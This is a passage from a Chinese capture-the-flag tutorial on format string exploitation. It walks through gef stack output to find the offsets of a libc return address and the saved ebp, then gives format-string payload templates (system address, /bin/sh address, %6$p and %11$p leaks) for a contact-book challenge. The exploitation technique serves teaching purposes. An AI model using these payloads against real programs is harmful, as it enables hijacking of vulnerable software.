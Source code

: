 ```shell
0xffffcd54│+0x58: 0xffffcd68  →  0x00000004
0xffffcd58│+0x5c: 0x00000050 ("P"?)
0xffffcd5c│+0x60: 0x00000000
0xffffcd60│+0x64: 0xf7fad3dc  →  0xf7fae1e0  →  0x00000000
0xffffcd64│+0x68: 0x08048288  →  0x00000082
0xffffcd68│+0x6c: 0x00000004
0xffffcd6c│+0x70: 0x0000000a
0xffffcd70│+0x74: 0xf7fad000  →  0x001b1db0
0xffffcd74│+0x78: 0xf7fad000  →  0x001b1db0
0xffffcd78│+0x7c: 0x00000000
0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10
0xffffcd80│+0x84: 0x00000001
0xffffcd84│+0x88: 0xffffce14  →  0xffffd00d  →  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/201[...]"
0xffffcd88│+0x8c: 0xffffce1c  →  0xffffd058  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
```

我们可以通过简单的判断可以得到

```
0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10
```

存储的是__libc_start_main的返回地址，同时利用 fmtarg 来获取对应的偏移，可以看出其偏移为 32，那么相对于格式化字符串的偏移为 31。

```shell
gef➤  fmtarg 0xffffcd7c
The index of format argument : 32
```

这样我们便可以得到对应的地址了。进而可以根据 libc-database 来获取对应的 libc，继而获取 system 函数地址与 /bin/sh 函数地址了。

其次，我们可以确定栈上存储格式化字符串的地址 0xffffcd2c 相对于格式化字符串的偏移为 11，得到这个是为了构造我们的联系人。

再者，我们可以看出下面的地址保存着上层函数的调用地址，其相对于格式化字符串的偏移为 6，这样我们可以直接修改上层函数存储的 ebp 的值。

```shell
0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000	 ← $ebp
```

#### 构造联系人获取堆地址

得知上面的信息后，我们可以利用下面的方式获取堆地址与相应的 ebp 地址。

```text
[system_addr][bbbb][binsh_addr][%6$p][%11$p][bbbb]
```

来获取对应的相应的地址。后面的 bbbb 是为了接受字符串方便。

这里因为函数调用时所申请的栈空间与释放的空间是一致的，所以我们得到的 ebp 地址并不会因为我们再次调用而改变。

在部分环境下，system地址会出现\x00，导致printf的时候出现0截断导致无法泄露两个地址，因此可以将payload的修改如下：

```text
[%6$p][%11$p][ccc][system_addr][bbbb][binsh_addr][dddd]
```
